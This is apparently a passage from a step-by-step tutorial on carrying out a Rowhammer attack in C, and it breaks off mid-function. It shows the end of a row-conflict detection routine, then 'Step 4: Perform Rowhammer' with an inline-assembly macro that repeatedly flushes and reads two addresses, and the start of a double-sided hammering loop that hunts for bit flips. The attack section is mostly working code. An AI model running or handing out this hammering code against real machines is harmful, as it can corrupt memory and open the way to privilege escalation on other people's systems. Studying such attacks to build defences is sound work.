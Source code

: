 ```
	cl = clock() - cl;
	timer = ((float) cl)/CLOCKS_PER_SEC;

	//print out the conflict_index
	printf("Number of indicies in conflict: %d\n", conflict_index);

  	// Writing rowconflicts into the file, uncomment to produce the c.txt file
	/*
	FILE *c_file;
	c_file = fopen("c.txt", "w");
	for(int p = 0; p < cont_end - cont_start; p++)
		fprintf(c_file, "%u\n", conflictBuffer[p]);
	fclose(c_file);
	*/

	return_bank->indices = conflict_index;
}
```
### Step 4: Perform Rowhammer <span style="color:orange">[30 mins]</span>

Oh boy.


Most difficult parts are actually done, however - the physical addresses to hammer are known, so they simply need to be filled and hammered.


```
#define hammer10(_memory, _memory2)\
do{\
   asm volatile(\
   "mov $1000000, %%r11;"\
   "h10:"\
   "clflush (%%rdx);"\
   "clflush (%%rbx);"\
   "mov (%%rbx), %%r12;"\
   "mov (%%rdx), %%r13;"\
   "dec %%r11;"\
   "jnz h10;"\
   : \
   : "b" (_memory), "d" (_memory2)\
   : "r11", "r12", "r13"\
   );\
}while(0)

void get_flips(uint8_t *myBuffer, struct continuous_bank * myBank){
	clock_t cl;
	cl = clock();
	///////////////////////////////DOUBLE_SIDED_ROWHAMMER//////////////////////
	#ifdef PRINTING
		printf("\n------------DOUBLE SIDED HAMMERING on DETECTED CONTIGUOUS MEMORY-------------\n\n");
	#endif
	
	int h;
	bool flip_found10 = false;
	int flips_per_row10 = 0;
	int flippy_offsets10[PAGE_SIZE] = {0};
	
	for (h = 2; h < myBank->indices - 2; h = h+2)
	{
		
		//For 1->0 FLIPS
		printf("Hammering Rows %i %i %i\n", h/2, h/2+1, h/2+2);
```